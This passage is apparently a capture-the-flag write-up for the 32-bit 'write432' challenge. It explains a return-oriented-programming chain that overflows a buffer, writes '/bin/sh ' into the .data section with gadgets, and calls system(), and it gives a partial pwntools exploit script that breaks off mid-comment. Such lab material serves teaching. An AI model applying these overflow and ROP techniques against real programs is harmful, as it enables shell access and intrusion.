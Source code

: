 ```shell
|  {mov_[edi]_ebp_ret_gadget_addr}
|
|  # Now, call system()
|
|  {addr_of_system}
|  {return_addr_of_system}
|  {addr_of_.data_section_in_memory}
```

Explanation for the above ROP chain:

1. First, we overflow the buffer and change the return address to the `pop edi; pop ebp; ret;` gadget
2. The next value on the stack must be the address to the .data section. This is popped into EDI.
3. The next value on the stack will be the string "/bin". This is popped into EBP.
4. The pop edi gadget returns into the `mov [edi], ebp; ret;` gadget, which moves the string stored in EBP to the memory location stored in EDI.
5. We repeat the exact same thing for the remainder of the string "/sh ", except this time we have to ensure to add 0x4 to the address of the .data section so that we don't overwrite the already written string "/bin".
6. The final `ret`; in the mov gadget will then return into `system()`, and we set up the stack so that the argument to system is the address to the .data section where our "/bin/sh " string is stored.

Using the above information, we write the exploit script.
```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'critical'
elf = ELF("./write432")

# Gadgets
pop_two_addr = p32(0x080486da) # pop edi; pop ebp; ret;
mov_addr = p32(0x08048670) # mov [edi], ebp;

data_addr = 0x0804a028 # memory address of the .data section
system_addr = p32(0x08048430) # address to system()

'''
Note that we have to write the string "/bin/sh " 4 bytes at a time since this 
is a 32-bit binary. In the 64-bit version, we can write the whole string in one
go as an 8 byte write.
'''

payload = "A"*44 # Overflow the buffer (offset found using gdb gef, refer to previous challenges)
payload += pop_two_addr # Jump to the 'pop edi; pop ebp; ret;' gadget
payload += p32(data_addr) # Pop this into edi
payload += "/bin" # Pop this into ebp

# mov [edi], ebp will move "/bin" into the memory location stored in edi
payload += mov_addr

'''
Now repeat the same thing with the remaining of the string, taking note of
the fact that you have to remember to do two things:

1. Add four bytes to the address of the .data section, otherwise you will
   overwrite the "/bin" string with "/sh "

2. Ensure there is a trailing space in "/sh ". This is important as otherwise
   it will probably get replaced by a null byte (in order to make it 4 bytes in
   size). The null byte might cause the exploit to not work as intended.
```